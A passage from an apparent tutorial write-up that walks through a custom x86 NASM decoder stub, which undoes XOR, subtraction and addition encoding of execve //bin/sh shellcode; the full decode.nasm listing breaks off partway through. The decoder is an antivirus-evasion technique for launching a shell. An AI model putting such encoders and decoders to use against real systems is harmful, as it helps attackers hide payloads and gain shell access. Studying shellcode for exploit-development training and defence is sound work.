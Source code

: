 `EDI` is then incremented by `1` to shift on to the next byte which needs to be added by `7`. The loop continues until the shellcode in it's entirety has been decoded.

```nasm
xor ebx, ebx          ;clearing out ebx
mov bl, byte [edi]    ;taking the current byte in EncodedShellcode and placing it into BL. EDI starts at +10.
add bl, al            ;adding the current value in BL by 7 and placing that value into BL
mov byte [edi], bl    ;replacing the current byte at the memory location pointed to by EDI with the decoded byte
inc edi               ;shifting to the next byte
loop add_decoder_loop ;loop until CL has been met
```


<br>9\. `jmp short EncodedShellcode`

The final instruction performs a short `jmp` to the `EncodedShellcode` label where the the existing encoded values have been overwritten with the decoded values. Execution is then passed to the decoded Stack-based `execve` `//bin/sh` shellcode.


### decode.nasm
Below is decode.nasm in its entirety.

```nasm
;decode.nasm
;sanjiv kawa (@skawasec)
;this decodes shellcode encoded by encode.rb

global _start

section .text
_start:
  jmp short encoded_shellcode

decode:
  pop esi             ;the address for EncodedShellcode is placed in to ESI
  push esi            ;the address for EncodedShellcode is pushed on to the stack for preservation
  lea edi, [esi +10]  ;the address for EncodedShellcode with an offset of 10 is placed into EDI

  xor ecx, ecx      ;clearing out ecx
  mov cl, [esi +8]  ;the length of the EncodedShellcode is placed into DL

xor_decoder_loop:
  xor ebx, ebx          ;clearing out ebx
  mov bl, byte [esi]    ;taking the current byte in EncodedShellcode and placing it into BL
  xor bl, 0xd3          ;xor'ing the current value in BL with 0xd3 and placing that value into BL
  mov byte [esi], bl    ;replacing the current byte at the memory location pointed to by ESI with the decoded byte
  inc esi               ;shifting to the next byte
  loop xor_decoder_loop ;looping through the entirety of EncodedShellcode

  pop esi       ;resetting esi to its original location, the beginning of EncodedShellcode
  xor ecx, ecx  ;clearing out ecx
  mov cl, 10    ;this sets the loop count for sub_decoder_loop. The fixed value of 10 is okay as only the first 10 bytes need to be subtracted.

  xor edx, edx      ;clearing out edx
  mov dl, [esi +8]  ;the length of the EncodedShellcode is placed into DL

  xor eax, eax  ;clearing out eax
  mov al, 5     ;5 is the subtraction value

sub_decoder_loop:
  xor ebx, ebx          ;clearing out ebx
  mov bl, byte [esi]    ;taking the current byte in EncodedShellcode and placing it into BL
```